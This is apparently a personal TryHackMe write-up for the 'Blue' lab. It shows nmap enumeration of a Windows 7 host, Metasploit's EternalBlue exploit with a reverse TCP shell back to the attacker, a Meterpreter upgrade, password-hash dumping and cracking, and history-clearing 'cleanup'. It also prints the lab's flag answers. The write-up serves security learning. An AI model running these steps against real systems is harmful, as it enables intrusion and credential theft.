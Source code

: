 # [Blue]

## Basic Info
- **Platform**: TryHackMe
- **IP Address**: 10.10.5.87
- **Date**: 05/03/2025
- **Difficulty**: Easy
- **Tags**: Enumeration, Exploitation, Privilege Escalation

---

## Scanning & Enumeration

### Nmap
**Command:**
```bash
nmap -sVC -T4 -p- --open <ip> -oN blue.nmap
```

**Result Summary:**

```
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-05-02T14:26:05
|_Not valid after:  2025-11-01T14:26:05
|_ssl-date: 2025-05-03T15:50:43+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:50:17:50:99:b1 (unknown)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h14m59s, deviation: 2h30m00s, median: -1s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-03T10:50:37-05:00
| smb2-time: 
|   date: 2025-05-03T15:50:37
|_  start_date: 2025-05-03T14:26:04
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

---

## Service Analysis

### Port 445 - SMB
- **What’s running:** Microsoft SMB (Server Message Block)
- **Interesting files/directories:** 
- **Vulnerabilities identified:** ms17-010

---

## Exploitation

### Method Used:
- Vulnerability: ms17-010
- Exploit Used: exploit/windows/smb/ms17_010_eternalblue AKA eternalblue
- Shell Access Gained: Yes, reverse shell via Metasploit

**Commands:**
```bash
msfconsole - to start MetaSploit
	set the RHOST to <target_ip>
	set the LHOST to <your_ip>
	set payload windows/x64/shell/reverse_tcp #set the payload to get a reverse shell. 
	show targets  #to show potentional targets you can set which varies of the OS that the target has
	set target 1  #to select target os
	run #then run the exploit

```
---

```bash
CTRL+Z to background the shell
Then ran "search shell_to_meterpreter" #to have a stable meterpreter session
use 0 - to choose the exploit
sessions -l #to list the shells that we have.
set session 1
run #This upgrades the session
```
The session will look like it dropped, if you see 'stopping exploit/multi/handlder' it did not crash, instead run the following.

```bash

session 2 #this selects the upgraded session

```

We can see that our process ID belongs to powershell.exe and is running as NT AUTHORITY\SYSTEM.

then run:

```bash

hashdump

```

We can crack this hash using john with the following command after adding the hash (we just need the last part of the hash after the last “:”) to a file called “hash.txt” for the user Jon.

```bash

echo <hash> > hash.txt

```

Then now we have a password.

Now lets get the flags:

```bash
search -f *.txt - search for all the flags

```

```bash
cat "C:\\flag1.txt"
cat "c:\\Windows\\System32\\config\\flag2.txt"
cat "c:\\Users\\Jon\\Documents\\flag3.txt"
```

### User Enumeration
getuid
ps

### File Discovery
Flag 1 location: C:\flag1.txt <br>
Flag 2 location: c:\Windows\System32\config\flag2.txt <br>
Flag 3 location: c:\Users\Jon\Documents\flag3.txt

---

## Privilege Escalation

### Method Used:
Not applicable — already NT AUTHORITY\SYSTEM from exploit

---

## Flags

- **Flag 1** flag{access_the_machine}
- **Flag 2** flag{sam_database_elevated_access}
- **Flag 3** flag{admin_documents_can_be_valuable}

---

## Lessons Learned
- I've learned sometimes if you have a firewall setup on your machine that you will need to allow list the ports that your room is using to connect back to your machine.
- Within the upgraded shell, you sometimes need to use a double "\\" for the absolute filepath to "cat" out the file contents of files.
- 

---

## Cleanup (If applicable)
```bash
rm /tmp/<filename>
unset HISTFILE
```


## Summary/Understanding of what I've learned in this room
- Learned how to exploit the EternalBlue vulnerability (MS17-010) on a vulnerable Windows 7 machine using Metasploit.
- Even though the exploit grants SYSTEM immediately, upgrading to Meterpreter makes post-exploitation easier.
- Extracted NTLM hashes and used John the Ripper for cracking.
